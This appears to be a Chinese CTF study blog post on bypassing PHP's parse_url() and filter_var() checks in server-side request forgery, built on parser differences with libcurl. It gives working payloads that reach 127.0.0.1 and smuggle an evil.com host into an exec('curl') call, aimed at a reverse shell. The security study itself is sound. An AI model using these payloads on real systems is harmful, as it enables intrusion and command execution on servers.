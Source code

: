 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SSRF中两个函数的绕过               # 标题 
subtitle:    #副标题
date:       2020-03-03              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SSRF

---
```

# 前言
在SSRF中我们经常遇到这两个函数filter_var()和parse_url(),今天来学习一下这两个函数相关的绕过方法.
# parse_url()
## 函数介绍
parse_url用来解析 URL，返回其组成部分(返回一个关联数组)
语法如下:
``` php
 parse_url (url,commpent) : mixed
```
其中,url为需要解析的url(必需),commpent为指定 PHP_URL_SCHEME、 PHP_URL_HOST、 PHP_URL_PORT、 PHP_URL_USER、 PHP_URL_PASS、 PHP_URL_PATH、 PHP_URL_QUERY 或 PHP_URL_FRAGMENT 的其中一个来获取 URL 中指定的部分的 string.(非必需)
## 绕过
我们需要知道libcurl和parse_url的解析差异.
```
完整url: scheme:[//[user[:password]@]host[:port]][/path][?query][#fragment]
这里仅讨论url中不含'?'的情况
php parse_url：
host: 匹配最后一个@后面符合格式的host
libcurl：
host：匹配第一个@后面符合格式的host
```
比如，
```
http://u:p@baidu.com@bilibili.com/
```
parse_url和libcurl的解析分别如下:
```
    parse_url解析结果：
    schema: http 
    user: u
    pass: p@baidu.com
    host: bilibili.com
    
libcurl解析结果：
    schema: http
    host: baidu.com
    user: u
    pass: p
    port: 80
    后面的@bilibili.com/会被忽略掉
```
## 题目分析
题目中部分代码如下:
``` php
<?php
$url = @$_GET['url'];
if (parse_url($url, PHP_URL_HOST) !== "www.baidu.com"){
    die('step 9 fail');
}
if (parse_url($url,PHP_URL_SCHEME) !== "http"){
    die('step 10 fail');
}
$ch = curl_init();
curl_setopt($ch,CURLOPT_URL,$url);
$output = curl_exec($ch);
curl_close($ch);
if($output === FALSE){
    die('step 11 fail');
}
else{
    echo $output;
}
```
结合上面的知识，我们可以构造出如下payload:
```
http://u:p@127.0.0.1:80@www.baidu.com/flag.php
```
# filter_var()
## 函数介绍
filter_var() 函数通过指定的过滤器过滤一个变量。如果成功，则返回被过滤的数据。如果失败，则返回 FALSE。  
语法如下:
``` php
filter_var(variable, filter, options) 
```
其中,variable是判断的字符串(必需),filter是相应的过滤器ID,通常在SSRF中对应的是FILTER_VALIDATE_URL,即判断是不是URL。
## 绕过
在CTF中我们经常见到这样的代码
``` php
   if(filter_var($url, FILTER_VALIDATE_URL)) {
      $r = parse_url($url);
      if(preg_match('/google\.com$/', $r['host'])) 
      {
         exec('curl -v -s "'.$r['host'].'"', $a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
```
可以想见，题目的解法就是想办法执行curl语句进而利用curl反弹shell,所以关键就在于绕过preg_match,filter_var.
我们需要知道以下知识:
> 许多URL结构保留一些特殊的字符用来表示特殊的含义，这些符号在URL中不同的位置有着其特殊的语义。
字符";", "/", "?", ":", "@", "=" 和"&"是被保留的。
除了分层路径中的点段，通用语法将路径段视为不透明。 生成URI的应用程序通常使用段中允许的保留字符来分隔。例如"；"和"="用来分割参数和参数值。逗号也有着类似的作用。
例如，有的结构使用name;v=1.1来表示name的version是1.1，然而还可以使用name,1.1来表示相同的意思。当然对于URL来说，这些保留的符号还是要看URL的算法来表示他们的作用。
例如，如果用于hostname上，URL"http://evil.com;baidu.com"会被curl或者wget这样的工具解析为host:evil.com，querything:baidu.com  

知晓了上面的原理后,我们可以构造出这样的结果:
``` 
http://evil.com;google.com
```
但是可以看出,这样并不能通过filter_var的检测.
![](/blog_img/ssrf2_1.png)
但当我们修改为:
```
0://evil.com;google.com
```
可以看到，成功进入了exec()语句.
![](/blog_img/ssrf2_2.png)
但是这样并不能执行curl语句,我们可以通过制定特定端口即可解决这个问题。于是有最终payload:
```
0://evil.com:80;google.com:80
```
需要注意的是:
```
使用逗号代替分号会出现同样的情况
前面的0可以用其他非协议字段代替
```
另外，当像本题一样当使用了exec()函数而且脚本又使用[host]来创建一个curl HTTP请求时，我们还可以采用以下的payload:
```
0://evil$google.com
```

# 参考文章
[v0w的博客](https://v0w.top/2018/11/23/SSRF-notes/#2-parse-url%E4%B8%8Elibcurl%E5%AF%B9curl%E7%9A%84%E8%A7%A3%E6%9E%90%E5%B7%AE%E5%BC%82)  
[secjuice上的文章](https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51)  

